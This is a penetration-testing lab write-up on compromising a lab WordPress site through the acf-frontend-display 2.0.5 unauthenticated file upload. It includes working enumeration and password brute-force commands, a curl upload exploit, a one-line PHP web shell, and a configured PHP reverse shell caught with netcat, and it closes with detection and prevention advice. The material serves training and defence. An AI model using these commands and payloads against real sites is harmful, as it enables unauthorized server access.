# WordPress Penetration Testing — ACF Frontend Display File Upload

**Date:** July 2026 <br>
**Author:** ShahinSecLab <br>
**Category:** Web Application Penetration Testing <br>
**Difficulty:** Medium <br>
**Tools:** netdiscover, nmap, gobuster, wpscan, curl, netcat, php-reverse-shell

## Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Discovering the Target](#step-1--discovering-the-target)
* [Step 2 — Identifying the WordPress Site and Directory Enumeration](#step-2--identifying-the-wordpress-site-and-directory-enumeration)
* [Step 3 — Accessing the WordPress Admin Login Page](#step-3--accessing-the-wordpress-admin-login-page)
* [Step 4 — Enumerating WordPress Users with WPScan](#step-4--enumerating-wordpress-users-with-wpscan)
* [Step 5 — Brute Forcing the Password and Plugin Detection](#step-5--brute-forcing-the-password-and-plugin-detection)
* [Step 6 — Searching for Exploits on Exploit-DB](#step-6--searching-for-exploits-on-exploit-db)
* [Step 7 — Setting Up a Listener and Downloading a PHP Reverse Shell](#step-7--setting-up-a-listener-and-downloading-a-php-reverse-shell)
* [Step 8 — Editing the PHP Reverse Shell](#step-8--editing-the-php-reverse-shell)
* [Step 9 — Uploading the PHP Reverse Shell](#step-9--uploading-the-php-reverse-shell)
* [Step 10 — Triggering the Reverse Shell](#step-10--triggering-the-reverse-shell)
* [Step 11 — Getting a Reverse Shell](#step-11--getting-a-reverse-shell)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

## Introduction

In this lab I did a full penetration test against a WordPress website running on `192.168.5.141`. The site had several security issues — an outdated WordPress version, a vulnerable plugin with an arbitrary file upload vulnerability, and directory listing enabled on plugin folders. I used these weaknesses to upload a PHP reverse shell and get a shell on the server.

## Why This Attack Works

The `acf-frontend-display` plugin version `2.0.5` had an arbitrary file upload vulnerability (CVE-2015-9479). It allowed anyone to upload any file type — including PHP files — to the server without needing to log in first. Once a PHP file was uploaded, browsing to its URL made the server execute it. Since the web server ran as the `apache` user, the shell I got also ran as `apache`.

On top of that, directory listing was enabled on the plugin folder — meaning I could browse all the plugin files directly from the browser, which helped me understand the upload path and where my file would land.

## Lab Setup

| Component        | Details                           |
|-------------------|----------------------------------|
| Attacker Machine  | Kali Linux                       |
| Attacker IP       | `192.168.5.128`                 |
| Target Machine    | WordPress site — Armour Infosec  |
| Target IP         | `192.168.5.141`                 |
| Network           | VMware Host-Only Network         |

## Tools Used

| Tool                | Purpose                                |
|---------------------|----------------------------------------|
| `netdiscover`       | Find the target on the network         |
| `nmap`               | Scan open ports and services          |
| `gobuster`           | Find hidden directories               |
| `wpscan`             | Enumerate WordPress users and plugins |
| `curl`               | Upload the malicious PHP file         |
| `netcat`             | Catch the reverse shell               |
| `php-reverse-shell`  | Pentestmonkey reverse shell script    |

## Prerequisites

| What                     | Why                                      |
|---------------------------|-----------------------------------------|
| Kali Linux machine         | Attacker machine with all tools ready  |
| Target WordPress site running | Something to attack                 |
| `wpscan`                   | To enumerate users and plugins         |
| `gobuster`                  | To find hidden directories            |
| `php-reverse-shell.php`     | To get a shell on the server          |
| `netcat` listener           | To catch the reverse shell            |

## Attack Flow
```
Discover Target with netdiscover
                ↓
Confirm Host is Reachable
                ↓
Identify WordPress Site
                ↓
Enumerate Directories with Gobuster
                ↓
Access WordPress Admin Login Page
                ↓
Enumerate Users with WPScan
                ↓
Find Valid Username (bob)
                ↓
Attempt Password Brute Force (Failed)
                ↓
Password Not Found
                ↓
Enumerate Plugins with WPScan
                ↓
Identify acf-frontend-display 2.0.5
                ↓
Find Public File Upload Vulnerability
                ↓
Browse Plugin Directory
                ↓
Start Netcat Listener
                ↓
Download and Configure PHP Reverse Shell
                ↓
Upload PHP Reverse Shell
                ↓
Trigger Uploaded File
                ↓
Receive Reverse Shell Connection
                ↓
Gain Access as apache User
```

## Step 1 — Discovering the Target

First, I scanned my local network to find active hosts.

```bash
sudo netdiscover -i eth0 -r 192.168.5.0/24
```
**Output:**

```
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.5.2     00:50:56:f7:77:5e      3     180  VMware, Inc.                                                             
 192.168.5.1     00:50:56:c0:00:08     17    1020  VMware, Inc.                                                             
 192.168.5.141   00:0c:29:f5:98:d5      2     120  VMware, Inc.                                                             
 192.168.5.254   00:50:56:e4:2d:b0      1      60  VMware, Inc.
 ```
From the scan results, I found the target machine at `192.168.5.141`.

 <p align="center">
  
</p>

### Confirmed the Target Was Reachable

Before starting any enumeration, I made sure the target was online by sending ICMP echo requests.

```bash
ping 192.168.5.141
```
**Output:**

```
PING 192.168.5.141 (192.168.5.141) 56(84) bytes of data.
64 bytes from 192.168.5.141: icmp_seq=1 ttl=64 time=0.679 ms
64 bytes from 192.168.5.141: icmp_seq=2 ttl=64 time=0.346 ms
64 bytes from 192.168.5.141: icmp_seq=3 ttl=64 time=0.357 ms
64 bytes from 192.168.5.141: icmp_seq=4 ttl=64 time=0.298 ms
```
The target replied to the ping requests, so I confirmed that it was online and ready for the next step. I then started enumerating the target to find open ports and available services.

## Step 2 — Identifying the WordPress Site and Directory Enumeration

### Opened the Target in Browser

I browsed to `http://192.168.5.141/` and found a WordPress site called Armour Infosec — a cybersecurity training company website. This confirmed the target was running WordPress.

### Ran Gobuster to Find Hidden Directories

```bash
gobuster dir -u http://192.168.5.141/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```
**Flag Breakdown**

| Flag  | Value                          | Description                       |
|-------|----------------------------------|--------------------------------------|
| `dir` | —                                 | Run in directory enumeration mode   |
| `-u`  | `http://192.168.5.141/`          | Target URL                          |
| `-w`  | `directory-list-2.3-medium.txt`   | Wordlist for directory brute forcing |

**Output:**

```
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.141/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wp-content           (Status: 301) [Size: 240] [--> http://192.168.5.141/wp-content/]
wp-includes          (Status: 301) [Size: 241] [--> http://192.168.5.141/wp-includes/]
wp-admin             (Status: 301) [Size: 238] [--> http://192.168.5.141/wp-admin/]
Progress: 207641 / 207641 (100.00%)
```
**What This Tells Me**

| Directory       | What it means                        |
|------------------|-----------------------------------------|
| `/wp-content`    | Holds themes, plugins and uploaded files |
| `/wp-includes`   | Core WordPress files                     |
| `/wp-admin`      | The WordPress admin login page           |

All three standard WordPress directories were found and accessible.

<p align="center">
  
</p>

## Step 3 — Accessing the WordPress Admin Login Page

### I browsed to the WordPress admin login page:

After finding the WordPress website, I checked whether the admin login page was accessible.

```bash
http://192.168.5.141/wp-admin
```
The login page loaded successfully. From this page, I noticed there were no additional security measures, such as two-factor authentication (2FA) or login attempt restrictions. This meant I could continue with a password brute-force attack against the login page.

<!-- screenshot add korte hobe -->

## Step 4 — Enumerating WordPress Users with WPScan

After confirming that the WordPress login page was accessible, I used **WPScan** to look for valid usernames.

```bash
wpscan --url http://192.168.5.141/ -e u
```
**Flag Breakdown**

| Flag    | Description                 |
|---------|--------------------------------|
| `--url` | Target WordPress URL           |
| `-e u`  | Enumerate users on the site    |

**Output:**

```
[+] URL: http://192.168.5.141/ [192.168.5.141]
[+] Started: Wed Jul  8 07:11:31 2026

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14
 |  - X-Powered-By: PHP/7.3.14

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <==============================================================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] bob
 | Found By: Author Id Brute Forcing - Display Name (Aggressive Detection)
```

<p align="center">
  
</p>

### What I Found

| Field             | Value                            |
|--------------------|--------------------------------------|
| Server              | Apache/2.4.6 (CentOS) PHP/7.3.14   |
| Username Found      | `bob`                               |
| Detection Method    | Author ID Brute Forcing             |

WPScan successfully found a valid WordPress username: `bob`.

Since I now had a valid username, the next step was to try a password brute-force attack against the WordPress login page.

## Step 5 — Brute Forcing the Password and Plugin Detection

### Brute Forced the Password for User bob

```bash
wpscan --url http://192.168.5.141/ -U bob -P /usr/share/wordlists/rockyou.txt
```
<!-- Flag explain add korte hobe -->

I used **WPScan** with the username I found earlier and the `rockyou.txt` wordlist to try common passwords.
The attack completed, but no valid password was found for the user `bob`. This indicated that the password was not present in the `rockyou.txt` wordlist.

### Ran Plugin Detection

Since the password attack was unsuccessful, I looked for installed plugins that might contain known vulnerabilities.

```bash
wpscan --url http://192.168.5.141/ --plugins-detection mixed 
```
```
[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.5.141/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.3.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.5.141/, Match: 'WordPress 5.3.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:01:02 <======================================================================> (124482 / 124482) 100.00% Time: 00:01:02
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] acf-frontend-display
 | Location: http://192.168.5.141/wp-content/plugins/acf-frontend-display/
 | Readme: http://192.168.5.141/wp-content/plugins/acf-frontend-display/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.5.141/wp-content/plugins/acf-frontend-display/, status: 200
 |
 | Version: 2.0.5 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.5.141/wp-content/plugins/acf-frontend-display/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.5.141/wp-content/plugins/acf-frontend-display/readme.txt
```

**Two things stood out here:**

- WordPress version `5.3.2` was flagged as insecure — released back in 2019
- The plugin `acf-frontend-display` version `2.0.5` had directory listing enabled — meaning anyone could browse its files directly from the browser.

Based on these findings, I searched for a public exploit targeting `acf-frontend-display` **version 2.0.5.**

<p align="center">
  
</p>

## Step 6 — Searching for Exploits on Exploit-DB

I searched Google for `WordPress version 5.3.2 exploit` and found a result on **Exploit-DB**:

```
WordPress Plugin Popular Posts 5.3.2 - Remote Code Execution (RCE) (Authenticated) 
```
**Why I Did Not Use This Exploit**

This exploit was marked as **Authenticated** — meaning I needed a valid WordPress username and password to use it. Since the brute force on `bob`'s account did not find a password, I could not log into the admin panel.

- **Authenticated** : Need valid login credentials first before running the exploit
- **Unauthenticated** : No login needed — works without any credentials

Then I searched for `acf-frontend-display exploit` and found:

```
WordPress Plugin ACF Frontend Display 2.0.5 - Arbitrary File Upload 
```
This was exactly what I needed. The plugin allowed uploading any file type including PHP files — with no login needed at all.

<p align="center">
  
</p>

The exploit command:

```bash
curl -k -X POST -F "action=upload" -F "files=@/root/Desktop/evil.php" "site:wp-content/plugins/acf-frontend-display/js/blueimp-jQuery-File-Upload-d45deb1/server/php/index.php"
```
```
File Path: site/wp-content/uploads/uigen_YEAR/file.php
Example:   site/wp-content/uploads/uigen_2015/evil.php
evil.php:  <?php passthru($_GET['cmd']); ?>
```
**Why I Did Not Use `evil.php`**

The exploit example used a simple passthru command shell:
```
evil.php: <?php passthru($_GET['cmd']); ?>
```
This only lets me run single commands through the browser URL. Instead I wanted a full interactive reverse shell — so I needed to use a proper PHP reverse shell script instead of this simple one liner.

## Step 7 — Setting Up a Listener and Downloading a PHP Reverse Shell

### Started a Netcat Listener

Before running the exploit, I started a Netcat listener on my Kali machine to wait for the incoming reverse shell connection.

```bash
nc -nlvp 1234
```
### Flag Breakdown

| Flag | Description        |
|------|-----------------------|
| `-n` | No DNS resolution      |
| `-l` | Listen mode            |
| `-v` | Verbose output         |
| `-p` | Port to listen on      |

```
listening on [any] 1234 ...
```
The listener was ready and waiting for a connection on port 1234.

### Downloaded a PHP Reverse Shell

Next, I needed a PHP reverse shell that I could upload through the exploit.

I searched Google for `php reverse shell` and found the well known **pentestmonkey reverse shell** on GitHub:

```bash
https://github.com/pentestmonkey/php-reverse-shell
```
I downloaded `php-reverse-shell.php` to my Kali Desktop.

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

## Step 8 — Editing the PHP Reverse Shell

Before using the reverse shell, I updated it with my Kali machine's IP address and the port where my Netcat listener was waiting.

```bash
cd Desktop
nano php-reverse-shell.php
```
I edited the following lines:

```bash
$ip = '192.168.5.128';   // My Kali IP
$port = 1234;             // My netcat listener port
```
After making the changes, I saved the file and exited the editor.

```bash
Ctrl+X → Y → Enter
```

- **Kali IP** : `192.168.5.128`
- **Listener Port** : `1234`

## Step 9 — Uploading the PHP Reverse Shell

After editing the reverse shell, I uploaded it to the vulnerable file upload endpoint using `curl`.

```bash
curl -k -X POST -F "action=upload" -F "files=@/home/kali/Desktop/php-reverse-shell.php" "http://192.168.5.141/wp-content/plugins/acf-frontend-display/js/blueimp-jQuery-File-Upload-d45deb1/server/php/index.php"
```
**Output:**

```
[{
  "name": "php-reverse-shell.php",
  "size": 5495,
  "type": "application/octet-stream",
  "url": "https://www.armourinfosec.test/wp-content/uploads/uigen_2026/php-reverse-shell.php",
  "delete_url": "http://192.168.5.141/wp-content/plugins/acf-frontend-display/js/blueimp-jQuery-File-Upload-d45deb1/server/php/?file=php-reverse-shell.php",
  "delete_type": "DELETE"
}]
```
The upload completed successfully, and the server accepted the PHP file without blocking it or checking the file type.

<p align="center">
  
</p>

## Step 10 — Triggering the Reverse Shell

After uploading the PHP reverse shell, I opened the uploaded file in my browser.

```bash
http://192.168.5.141/wp-content/uploads/uigen_2026/php-reverse-shell.php
```
As soon as I visited the file, the server executed the `PHP-reverse-shell` and connected back to my **Netcat** listener on port `1234`.

The listener immediately received the connection, giving me a reverse shell on the target machine.

<p align="center">
  
</p>

## Step 11 — Getting a Reverse Shell

Netcat Caught the Connection

```
listening on [any] 1234 ...
connect to [192.168.5.128] from (UNKNOWN) [192.168.5.141] 39740
Linux armourinfosec.test 3.10.0-693.el7.x86_64 #1 SMP Tue Aug 22 21:09:27 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:27:50 up  1:02,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

### Confirmed Access

```bash
sh-4.2$ whoami
```
```
apache
```
I got a reverse shell on the target machine running as the apache user. The server executed my `php-reverse-shell.php` file and connected straight back to my Kali netcat listener.

<p align="center">
  
</p>

## How Defenders Can Catch This

| Indicator                                      | What to look for              |
|--------------------------------------------------|----------------------------------|
| PHP file uploaded to the server                   | File upload monitoring          |
| Unexpected outbound connection from the web server | Network monitoring              |
| New file in wp-content/uploads with .php extension | File integrity monitoring       |
| WPScan or gobuster traffic hitting the site        | Web server access logs          |
| XML-RPC endpoint being accessed repeatedly         | Web application firewall logs   |


## How to Prevent It

**Update WordPress and all plugins regularly**
WordPress 5.3.2 and `acf-frontend-display` 2.0.5 are both outdated. Always keep everything updated:

```
# From WordPress admin dashboard
Dashboard → Updates → Update All
```
**Disable directory listing on the web server**
Add this to your Apache config or ``.htaccess``:

```
Options -Indexes
```

**Block PHP file uploads**
Add this to `.htaccess` inside `wp-content/uploads`:

```
<Files *.php>
deny from all
</Files>
```

**Disable XML-RPC if not needed**
Add this to `.htaccess`:

```
<Files xmlrpc.php>
Order Deny,Allow
Deny from all
</Files>
```
**Use a Web Application Firewall**
Tools like Wordfence or Cloudflare WAF can block malicious file uploads and brute force attempts automatically.

**Limit login attempts**
Install a plugin like Limit Login Attempts Reloaded to block brute force attacks on `/wp-admin`.

## References

| Resource                                | Link                                                                 |
|-------------------------------------------|------------------------------------------------------------------------|
| Exploit-DB — ACF Frontend Display 2.0.5     | https://www.exploit-db.com/exploits/36374                              |
| CVE-2015-9479                              | https://www.cvedetails.com/cve/CVE-2015-9479                          |
| Pentestmonkey PHP Reverse Shell             | https://github.com/pentestmonkey/php-reverse-shell                    |
| WPScan                                     | https://wpscan.com                                                     |
| GTFOBins                                   | https://gtfobins.github.io                                             |
| MITRE ATT&CK — File Upload                 | https://attack.mitre.org/techniques/T1190                             |
| HackTricks — WordPress                     | https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress |

## Lessons Learned

During this lab, I learned several important lessons about WordPress security and web application testing:

- Enumerating WordPress users and plugins helped me understand the target before trying any exploits.
- When the password brute-force attack failed, looking for vulnerable plugins gave me another way to continue the attack.
- An outdated plugin can be enough to get code execution on a server.
- Directory listing made it easier to inspect the plugin and find useful files.
- Reading the exploit carefully helped me understand how it worked before using it.
- Using a PHP reverse shell gave me a much better shell than a simple one-line PHP command.
- Keeping WordPress and its plugins updated can prevent this type of attack.